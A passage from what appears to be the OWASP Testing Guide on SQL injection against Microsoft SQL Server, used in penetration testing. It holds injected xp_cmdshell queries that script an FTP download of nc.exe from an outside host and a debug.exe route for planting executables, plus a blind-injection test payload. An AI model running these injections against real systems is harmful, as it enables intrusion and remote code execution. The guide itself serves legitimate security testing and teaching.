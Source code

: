     exec master..xp_cmdshell 'echo open ftp.tester.org > ftpscript.txt';--
    exec master..xp_cmdshell 'echo USER >> ftpscript.txt';-- 
    exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
    exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--

At this point, nc.exe will be uploaded and available.\
If FTP is not allowed by the firewall, we have a workaround that exploits the Windows debugger, debug.exe, that is installed by default in all Windows machines. Debug.exe is scriptable and is able to create an executable by executing an appropriate script file. What we need to do is to convert the executable into a debug script (which is a 100% ASCII file), upload it line by line and finally call debug.exe on it. There are several tools that create such debug files (e.g.: makescr.exe by Ollie Whitehouse and dbgtool.exe by toolcrypt.org). The queries to inject will therefore be the following:

    exec master..xp_cmdshell 'echo [debug script line #1 of n] > debugscript.txt';--
    exec master..xp_cmdshell 'echo [debug script line #2 of n] >> debugscript.txt';--
    ....
    exec master..xp_cmdshell 'echo [debug script line #n of n] >> debugscript.txt';--
    exec master..xp_cmdshell 'debug.exe < debugscript.txt';--

At this point, our executable is available on the target machine, ready to be executed. There are tools that automate this process, most notably Bobcat, which runs on Windows, and Sqlninja, which runs on Unix (See the tools at the bottom of this page).

### Obtain information when it is not displayed (Out of band)

Not all is lost when the web application does not return any information --such as descriptive error messages (cf. [Blind SQL Injection](Blind_SQL_Injection "wikilink")). For example, it might happen that one has access to the source code (e.g., because the web application is based on an open source software). Then, the pen tester can exploit all the SQL injection vulnerabilities discovered offline in the web application. Although an IPS might stop some of these attacks, the best way would be to proceed as follows: develop and test the attacks in a testbed created for that purpose, and then execute these attacks against the web application being tested.

Other options for out of band attacks are described in Sample 4 above.

### Blind SQL injection attacks

#### Trial and error

Alternatively, one may play lucky. That is the attacker may assume that there is a blind or out-of-band SQL injection vulnerability in a the web application. He will then select an attack vector (e.g., a web entry), use fuzz vectors ([1](OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors "wikilink")) against this channel and watch the response. For example, if the web application is looking for a book using a query

`  select * from books where title=`**`text`` ``entered`` ``by`` ``the`` ``user`**

then the penetration tester might enter the text: **'Bomba' OR 1=1-** and if data is not properly validated, the query will go through and return the whole list of books. This is evidence that there is a SQL injection vulnerability. The penetration tester might later *play* with the queries in order to assess the criticality of this vulnerability.
